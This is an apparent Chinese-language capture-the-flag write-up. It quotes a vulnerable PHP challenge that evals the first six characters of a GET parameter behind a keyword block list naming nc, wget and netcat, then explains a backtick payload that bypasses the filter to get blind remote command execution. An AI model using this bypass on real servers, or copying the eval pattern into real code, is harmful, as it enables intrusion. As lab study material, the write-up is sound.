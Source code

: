 ```php
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

可以看到难点即在于这个`substr`。但这个地方，观察后发现`$_GET['F']`被赋值给了`$F`，接下来这个变量才被用于截断。那先上`payload`，再解释。

```php
?F=`$F `;sleep 3
```

通过传入上面的`payload`，`$F`变量在`if`语句里面被赋值为:

```php
`$F `;sleep 3
```

这样一来，在`eval`函数的地方，将先执行`substr($F,0,6)`（先后顺序，和我们传入的无关）

然后这段代码其实执行的是：

```php
eval("`$F `;");
```

相当于执行了这个：

```php
`$F `;
```

我们知道反引号其实是`shell_exec`函数，那么最终相当于执行：

```php
shell_exec($F );
```

已知`$F`是整段`payload`，那么即执行了：

```php
shell_exec("`$F `;sleep 3");
```

在服务器上执行了两个命令，以冒号分隔，分别是：

```bash
`$F `
```

和

```bash
sleep 3
```

到这里我们明白，`payload`中`;`之后的是我们可以操控执行的任意无回显`RCE`。其实感觉主要是变量赋值和`eval`的使用不当，不太是变量覆盖，毕竟也没有覆盖什么变量。
